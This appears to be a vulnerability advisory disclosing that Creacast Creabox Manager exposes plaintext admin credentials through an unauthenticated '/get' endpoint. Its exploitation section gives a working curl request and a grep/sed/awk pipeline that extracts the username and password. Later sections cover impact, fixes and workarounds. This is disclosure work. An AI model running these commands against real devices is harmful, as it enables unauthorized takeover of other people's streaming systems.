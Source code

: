 # Creacast Creabox Manager - Information Disclosure Vulnerability

## Description
Creacast Creabox Manager exposes sensitive configuration data via a publicly accessible endpoint `/get`.  
When accessed, this endpoint returns internal configuration including the `creacodec.lua` file, which contains plaintext admin credentials.

---

## Vendor Information

- **Vendor**: CREACAST  
- **Vendor Homepage**: http://www.creacast.com/

## Product
- **Name**: Creacast Creabox Manager
- **Firmware Version**: 4.4.4

## Vulnerability Type
- Information Disclosure via Insecure Endpoint

## Attack Vector
- Network (HTTP)

---


## Vulnerable Endpoint
- `GET /get`

---

## Exploitation

### Manual Exploit
```bash
curl "http://<target-ip>/get"
```
### This returns contents including:
```
flux_arcenciel = "http://admin:supersecret@internal.stream"
```
### Extract Credentials Automatically
```bash
curl "http://<target-ip>/get" \
| grep -Eo 'flux_arcenciel\s*=\s*"http://([^:]+):([^@]+)@' \
| sed 's#flux_arcenciel = "http://##;s#@.*##' \
| awk -F: '{print "username=" $1 ", password=" $2}'
```
### ✅ This outputs:
```
username=admin, password=supersecret
```
---
## Proof of Concept (PoC) for(RCE,Information Disclosure,Authentication Bypass)
https://github.com/user-attachments/assets/de63e189-2137-4521-8a32-8dc9502ae13a

---

## Impact

    * Disclosure of plaintext admin credentials

    * Unauthorized access to the device and streaming infrastructure

    * Potential takeover of audio/video streams or full administrative control
---

## Suggested Fixes

    * Restrict access to the /get endpoint using authentication

    * Remove hardcoded credentials and configuration exposure from public endpoints

    * Sanitize and limit the information returned by /get

    * Store sensitive configuration server-side and obfuscate user-facing outputs

---

## Workarounds

    * Block external access to the /get endpoint via firewall or reverse proxy rules

    * Monitor for suspicious or repetitive access attempts to /get
